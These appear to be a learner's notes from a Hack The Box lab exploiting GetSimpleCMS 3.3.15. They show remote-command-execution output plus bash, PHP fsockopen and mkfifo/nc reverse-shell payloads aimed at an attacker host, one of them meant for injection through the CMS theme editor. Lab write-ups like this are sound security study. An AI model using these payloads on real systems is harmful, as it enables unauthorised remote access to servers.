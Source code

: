 ```
(_______)(_______/   )_(     \_______)\_______/|/     \||/       (_______/(_______/  (_______/|/     \|\_______)           |/   \__/(_______/(_______/                                                                                                                                                                                
Created By: H088yHaX0R / (HTB - AKA: Marz0)                                                                                         
Works for GetSimpleCMS 3.3.15                                                                                                       
Enter the target URL (e.g., http://gettingstarted.htb): http://gettingstarted.htb
Enter the command to execute: id
```
*didn't work at first, but running with sudo fixed the problem*
*I also checked with the IP*
```
Enter the target URL (e.g., http://gettingstarted.htb): http://10.129.153.32
Enter the command to execute: id
[+] GetSimpleCMS version 3315 detected.
[+] Theme edit successful!
uid=33(www-data) gid=33(www-data) groups=33(www-data)

[*] Press Ctrl+C to exit.
```

*using the exploit to start a bash reverse shell*
```
Enter the target URL (e.g., http://gettingstarted.htb): http://gettingstarted.htb
Enter the command to execute: sh -i >& /dev/udp/ATTACKING IP/8080 0>&1
[+] GetSimpleCMS version 3315 detected.
[+] Theme edit successful!

[*] Press Ctrl+C to exit.
```

**but I don't get anything on the nc listener**
*let's try php reverse shell*
```
Enter the target URL (e.g., http://gettingstarted.htb): http://gettingstarted.htb
Enter the command to execute: php -r '$sock=fsockopen("ATTACKING IP",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
[+] GetSimpleCMS version 3315 detected.
[+] Theme edit successful!

[*] Press Ctrl+C to exit.
```
**still didn't get anything on my nc listener**

### Using the PHP Theme Editor within the Admin Panel #reverseshell
*i'm going to edit the theme php directly with this payload:*
`<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.3 9001 >/tmp/f"); ?>` 

![[Pasted image 20250604131746.png]]
